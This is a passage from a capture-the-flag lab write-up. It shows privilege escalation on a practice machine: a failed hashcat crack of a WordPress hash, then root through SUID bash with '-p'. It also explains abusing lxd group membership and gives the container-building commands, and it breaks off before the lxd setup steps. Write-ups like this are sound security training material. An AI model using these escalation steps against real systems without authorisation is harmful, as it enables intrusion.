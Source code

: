 The hash type after looking it up is listed as WordPress (MD5) and I try and crack it with hashcat but it doesn't end up cracking.

Looking at files with capabilities using `getcap -r / 2>/dev/null` doesn't give us anything useful.

<br>

## Root

Looking for misconfigured SUID files using `find / -perm /4000 2>/dev/null` shows us that /usr/bin/bash is set with SUID and we should be able to just use that with the -p flag to escalate to root:

![](images/ip5.png)

It worked, and now we can grab the proof.txt flag:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

## Bonus

Checking the `id` command shows us we're in the following groups:

```
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

Members of the lxd group can exploit a malicious container to gain access to all files on the filesystem. This is done by mounting the existing filesystem inside the container and taking advantage of security.privileged=true when initializing it. That let's us act as the root user inside the container, which then let's us access all files we couldn't before.

Do the following to build the container on your home system:

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

Transfer that container over to the target system and then run this to set up a storage pool and initialize lxd:
